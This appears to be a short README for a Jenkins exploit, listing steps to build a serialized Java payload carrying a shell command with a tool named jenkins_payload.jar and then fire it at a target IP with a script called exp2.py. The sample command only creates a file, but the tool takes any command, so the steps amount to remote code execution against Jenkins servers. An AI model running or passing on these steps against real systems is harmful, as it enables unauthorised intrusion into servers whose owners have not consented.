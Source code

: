 How to use: <br>
1.Download jar file:<br>
2.use "java -jar jenkins_payload.jar payload.ser "/usr/bin/touch /tmp/1.txt"  to create a ser file.<br>
3.run exp2.py ,use "python exp2.py -p HTTP -t [ip]" <br>

